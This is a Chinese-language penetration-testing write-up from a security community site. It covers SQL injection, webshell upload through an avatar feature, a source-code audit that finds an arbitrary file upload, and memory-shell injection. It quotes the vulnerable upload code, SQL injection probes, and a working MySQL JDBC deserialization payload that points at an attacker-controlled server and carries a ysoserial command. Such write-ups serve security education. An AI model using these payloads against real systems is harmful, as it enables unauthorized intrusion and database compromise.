# 记一次渗透到审计-先知社区

> **来源**: https://xz.aliyun.com/news/16183  
> **文章ID**: 16183

---

**前言**

某次渗透项目中要求必须产出高危漏洞且要拿到服务器及数据库权限，难受的是测试的部分系统之前已测试过一轮且加固修复一波之后，再次丢出进行漏洞挖掘，头皮发麻。

**某.Net系统getshell**

.Net网站后台可关注头像上传/查询/提交的地方，这种可能有上传/SQL注入漏洞。

**Aspx SQL 注入**

```
UserID=1+or+1=1
 UserID=1+or+1=2

```

SqlMap一把梭注入成功





**Aspx 文件上传**

头像上传处未做过滤，直接getshell





web.config获取多个数据库配置信息





**审计**

该系统之前已被挖掘过任意文件上传，后台基本没上传的点且都修复了，根据指纹特征，远方的队友给了一份源码，推测开发人员修复漏洞可能仅仅是修复某个页面或者某个点的漏洞而不是全局修复，尝试审计挖掘新的漏洞

**任意文件上传**

通过审计JSP文件，发现一处任意文件上传漏洞，前端获取uploadPath值



```
获取后缀未进行检查 extName = name.substring(name.lastIndexOf("."));
用时间戳+随机数字对文件进行重命名 name + (int)(Math.random()*90000+10000)
直接进行拼接 new File(savePath + name + extName)
最后写内容 item.write(file);

```



响应会返回上传成功重命名的文件名 ps:需注意的是没有返回具体的路径

```
response.getWriter().print((name.trim() + extName.trim()).trim());

```



前面提到uploadPath值很关键，决定了写入的shell文件存储的目录而且要有权限访问到，前面提到之前有被shell过，故直接将uploadPath值设为存在的访问路径，如/aaa/bbbb/直接构造上传的HTML文件。



经过测试成功上传，按照代码逻辑返回了上传的文件名



成功getshell



**Mysql JDBC 反序列化漏洞**

某jsp中找到一处数据库连接功能，URL/用户名/密码/可控，且lib包存在 Mysql，经过测试存在反序列化漏洞



直接分析.do对应的路由代码文件



不同数据库对应不同的type从而选择不同的数据库加载









访问对应的JSP文件完全可控，是一个数据库链接测试页面


服务端开启python server.py 由于目标系统存在cb、cc 可以利用cb2 弹个计算器（本地测试一下效果）





```
Mysql5.x 

url=jdbc:mysql://xx.xx.xx.xx:3307/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
username=yso-CommonsBeanutils2-raw_cmd:calc.exe
password=123456

```


**内存马注入**

JMG 生成内存马 class文件





